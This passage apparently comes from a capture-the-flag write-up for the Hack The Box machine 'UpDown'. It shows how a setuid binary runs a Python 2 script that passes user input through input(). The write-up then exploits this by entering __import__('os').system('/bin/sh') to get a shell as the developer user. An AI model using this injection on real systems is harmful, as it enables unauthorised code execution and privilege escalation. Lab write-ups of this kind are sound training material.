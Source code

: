 if we execute the binary it wants an input for an URL. but every time it throws an error.

```shell
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:google.de
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1, in <module>
NameError: name 'google' is not defined
```

the error is helpful in a way, that we know the binary is executing the python script from inside. we could this confirm when we executed `strings` on the binary.

```shell
...
[]A\A]A^A_
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py
:*3$"
...
```

ok, the source of the python script looks like this.

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```

very short script. after trying a few things we thought that the only thing we control is the input method. so after some research we found a vulnerability in python 2.

the binary executes python 2 too.

```shell
www-data@updown:/home/developer/dev$ /usr/bin/python --version
Python 2.7.18
```

the exploit looks like this.

```shell
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__("os").system("/bin/sh")
$ whoami
developer
```
